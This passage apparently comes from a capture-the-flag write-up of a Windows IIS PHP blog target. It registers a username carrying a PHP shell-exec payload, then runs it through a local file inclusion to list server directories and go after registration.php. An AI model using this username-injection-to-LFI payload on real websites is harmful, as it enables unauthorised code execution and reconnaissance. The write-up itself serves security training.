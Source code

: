     
    
     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640
    
     Directory of C:\inetpub\wwwroot\blog
    
    04/11/2019  05:23 AM    <DIR>          .
    04/11/2019  05:23 AM    <DIR>          ..
    04/11/2019  05:28 AM             4,341 blog-en.php
    04/11/2019  05:28 AM             4,487 blog-es.php
    04/11/2019  05:28 AM             4,489 blog-fr.php
    04/11/2019  05:23 AM    <DIR>          css
    04/11/2019  05:25 AM             1,357 error.html
    04/11/2019  05:25 AM             1,331 header.html
    04/11/2019  08:31 PM               442 index.php
    04/11/2019  05:23 AM    <DIR>          js
                   6 File(s)         16,447 bytes
                   4 Dir(s)  16,987,619,328 bytes free
    

#### Leak Source

I want to get the source for `registration.php` so I can understand the
filters I’m trying to bypass. But when I try to change directories registering
as a user with any characters like `..` and `\`, the login fails, presumably
because of the filtering again.

I was able to fumble around enough to get this username registered and logged
in:

    
    
    a<?php echo `dir \\inetpub\\wwwroot\\user` ?>b
    

Now using the LFI returned:

    
    
     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640
    
     Directory of C:\inetpub\wwwroot\user
    
    10/01/2019  08:44 AM    <DIR>          .
    10/01/2019  08:44 AM    <DIR>          ..
    04/11/2019  05:15 PM               108 auth.php
    04/11/2019  05:52 AM    <DIR>          css
    04/11/2019  10:51 AM               337 db.php
    04/11/2019  05:23 AM    <DIR>          fonts
    04/11/2019  05:23 AM    <DIR>          images
    04/11/2019  06:18 AM             4,639 index.php
    04/11/2019  05:23 AM    <DIR>          js
    04/11/2019  06:10 AM             6,463 login.php
    04/08/2019  11:04 PM               148 logout.php
    10/01/2019  08:42 AM             7,192 registration.php
    08/14/2019  10:35 PM             7,004 registration_old123123123847.php
    04/11/2019  05:23 AM    <DIR>          vendor
                   7 File(s)         25,891 bytes
                   7 Dir(s)  16,987,619,328 bytes free
    
